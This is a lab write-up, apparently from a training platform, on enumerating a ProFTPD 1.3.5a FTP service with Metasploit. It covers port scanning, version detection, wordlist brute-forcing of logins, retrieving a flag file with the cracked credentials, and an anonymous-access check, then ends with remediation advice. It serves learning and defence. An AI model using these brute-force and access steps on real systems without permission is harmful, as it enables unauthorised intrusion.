









# FTP Enumeration

**Classification:** Assessment Methodologies / Enumeration<br>
**Targets:** 192.35.127.3 and 192.113.17.3 (ProFTPD 1.3.5a)

## 1. Executive Summary

The target runs a **ProFTPD 1.3.5a** FTP service on port 21. Using Metasploit we scanned
the ports, fingerprinted the service, and brute-forced valid credentials
(`sysadmin:654321`). Authenticated FTP access allowed us to list and exfiltrate a sensitive
file (`secret.txt`), and the anonymous-access module was used to check for additional
exposure.

## 2. Port Scanning

After launching MSF Console, checking our IP and setting up a workspace, we run a TCP port
scan to confirm the FTP service is exposed.

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.35.127.3
run
```



## 3. Version Detection

```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 192.35.127.3
run
```

The banner reveals **ProFTPD 1.3.5a Server (AttackDefense-FTP)**.



## 4. Login Brute-Force

We launch the FTP login module using Metasploit's default user and password wordlists.

```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.35.127.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```



```bash
run
```

The brute-force succeeds with valid credentials: **`sysadmin:654321`**.



## 5. Authenticated Access & File Exfiltration

With valid credentials we connect directly over FTP.

```bash
ftp 192.35.127.3
# Name: sysadmin
# Password: 654321
```



The same credentials work against the second host.

```bash
ftp 192.113.17.3
```



Once connected we list the directory and download the sensitive file, which contains the
flag.

```bash
ls
get secret.txt
exit
cat secret.txt
# 260ca9dd8a4577fc00b7bd5810298076
```



## 6. Anonymous Access Check

Finally, we use the anonymous module to check whether the server also allows anonymous
logins (useful for gathering extra information).

```bash
use auxiliary/scanner/ftp/anonymous
set RHOSTS 192.113.17.3
```



```bash
run
```



## 7. Remediation Recommendations

1. **Enforce strong credentials and lockout:** the `sysadmin` account used a weak,
   guessable password (`654321`). Apply complexity, length and account-lockout policies to
   resist brute-force attacks.
2. **Disable anonymous FTP** unless strictly required (`<Anonymous>` block in `proftpd.conf`).
3. **Prefer SFTP/FTPS:** plain FTP transmits credentials and data in clear text; migrate to
   an encrypted transfer protocol.
4. **Suppress the version banner** to avoid disclosing the exact ProFTPD version.
